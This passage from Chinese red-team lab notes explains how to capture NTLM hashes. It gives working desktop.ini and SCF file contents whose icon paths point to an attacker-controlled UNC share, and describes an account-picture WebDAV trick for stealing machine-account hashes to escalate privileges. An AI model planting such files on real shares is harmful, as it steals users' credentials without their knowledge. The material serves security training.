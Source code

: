 当其打开这个 test 文件夹的时候，受害主机就会去请求图标资源

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/Responder欺骗/7.png)

在 Windows XP 系统中，desktop.ini 文件使用 “IcondFile” 而不是“IconResource”。
```
[.ShellClassInfo]
IconFile=\\1.1.1.1\aa
IconIndex=1337
```

**SCF文件**

我们可以使用 SCF（Shell 命令文件）文件执行有限的一组操作（例如显示 Windows 桌面或打开 Windows 资源管理器）。但是，如果使用 SCF 文件访问特定的 UNC 路径，那么我们可以发起攻击。

我们可以所有以下代码保存为. scf 文件然后放进文件共享中。

```
[Shell]
Command=2
IconFile=\\X.X.X.X\share\aaa.ico
[Taskbar]
Command=ToggleDesktop
```

保存为 .scf 文件放在文件共享中

当用户浏览共享时，将自动从他的系统建立到 SCF 文件中包含的 UNC 路径的连接。Windows 将尝试使用用户名和密码对共享进行身份验证。在该身份验证过程中，服务器会向客户端发送一个随机的 8 字节质询密钥，并使用此质询密钥再次加密散列的 NTLM / LANMAN 密码。我们将捕获 NTLMv2 哈希。

**头像**

适用于 Windows 10/2016/2019

在更改账户图片处，用普通用户的权限指定一个 webadv 地址的图片，如果普通用户验证图片通过，那么 SYSTEM 用户 (域内是机器用户) 也去访问指定的主机，并且携带凭据，我们就可以拿到机器用户的 net-ntlm hash，这个可以用来提权。
